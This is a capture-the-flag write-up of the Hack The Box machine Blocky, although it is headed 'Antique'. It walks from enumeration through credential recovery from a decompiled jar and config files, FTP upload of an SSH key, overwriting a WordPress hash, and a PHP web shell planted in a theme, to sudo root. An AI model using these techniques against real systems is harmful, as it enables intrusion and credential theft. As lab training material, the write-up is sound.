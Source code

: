 # Antique
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Nmap scan report for 10.10.10.37
Host is up (0.058s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Given the initial scan, let's dig deeper into port 80.
let's enumerate directories and see if we discover something intresting.
```
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 299]
```
Now, here's a rabbit hole that we can easilly jump straight in.
As we can see there is a wordpress installed on this server, we can try to exploit wordpress but there are tons of exploit available to try. there is a much easyer way.
Before jump into the rabbit hole, as a practice, make sure to enumerate everything.
Anyway enumerating wordpress show a user "notch".
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
we can check if this user is also available for ssh login.
To check this we can use the metasploit module ```scanner/ssh/ssh_enumusers``` and set the options as follows
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set username notch
username => notch
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.37:22 - SSH - Using malformed packet technique
[*] 10.10.10.37:22 - SSH - Starting scan
[+] 10.10.10.37:22 - SSH - User 'notch' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now, let's go now to the /plugins directory.
Here we can find two .jar files hosted: "BlockyCore.jar" and "griefprevention-1.11.2-3.1.1.298.jar".
.jar file are nothing else but archives, to extract this archive we can use zip command.
when we extract archives we can se .class file.
To decompile class files we can use ```jad``` (or ```jd-gui``` with the UI) and here we get the .jad file with the code in a readable format
## User
### Method 1 - Class File Decompile and Password Reuse
Using jad, we can decompile ```BlockyCore.class``` and get the .jad file by simply running:
```
jad BlockyCore.class
```
as we can see, after opening the jad file we can se the following lines:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
Now we can try to login as root/notch to the machine and see if we do get any luck.
```
[root@kali Blocky ]$ ssh $TARGET -l notch
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```
Now we got user.

### Method 2 - Wordpress Theme Exploitation and Password Seek in Configuration Files
Let's suppose now that, for some reason this credential does not work with the ssh service and we can somehow exploit the ftp service.  
Now we can try to login to ftp, create a .ssh/ directory and upload our public key into .ssh/authorized_keys and login using our certificate.  
In order to do this we can establish the followig ftp session:
```
[root@kali Blocky ]$ ftp $TARGET
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch                  
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
563 bytes sent in 0.00 secs (11.9315 MB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
now we can login into ssh.  
As a general rule, in penetration testing, code that connects to database contains connection parameter and in this parameter set we will most likely have credentials.  
so lets navigate to /var/www/html and grep for the keyword "pass"
```
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$ cat wp-config.php | grep DB_USER
define('DB_USER', 'wordpress');
```
As we can see we found the password for user wordpress.  
Let's dig deeper and see if we can get credentials for phpmyadmin.  
Finding credentials for mysql is quite important at this stage, because, if we do find credentials for root user, we can login to mysql cli and drop a shell as root using mysql as privilege escalation vector.  
Now let's navigate to ```/etc/phpmyadmin/```.  
We do not have permission for ```config-db.php``` file as it is owned by www-data. So, let's try to get a shell as user www-data.  
Now that we have user wordpress creds for the database, let's login to phpmyadmin using user wordpress and the disclosed password.  
Now we can navigate to wordpress database, find the ```wp_users``` table and create a new hash for user notch replacing the old one.  
Now we can login in wordpress using the user notch and the password used to generate the hash.  
Once we are logged in wordpress we can easilly obtain a shell by editing the theme files.  
If, for example, we go to Appearance > Editor > Theme Header, we can insert there a simple payload like : ```<?php system($_REQUEST['cmd']) ?>``` and obtain remote code execution and drop a shell as well.  
Once we are logged in as www-data we can read ```config-db.php```.  
As expected the file discloses credentials:
```
www-data@Blocky:/var/www/html$ cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
```
Now using this credentials we can try to escalate to another user and as we can see we can successfully escalate to "notch"
```
www-data@Blocky:/var/www/html$ su - notch
Password:
notch@Blocky:/var/www/html$
```

## Root
Now that we got user, first thing first let's check if we do have any sudo capability on this box:
```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Sudo asks for password, but as we are logged in using a password, we can provide the password and retrive sudo capabilities list.
Given the sudo permission, we can easilly escalate to root by simply doing:
```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~#
```
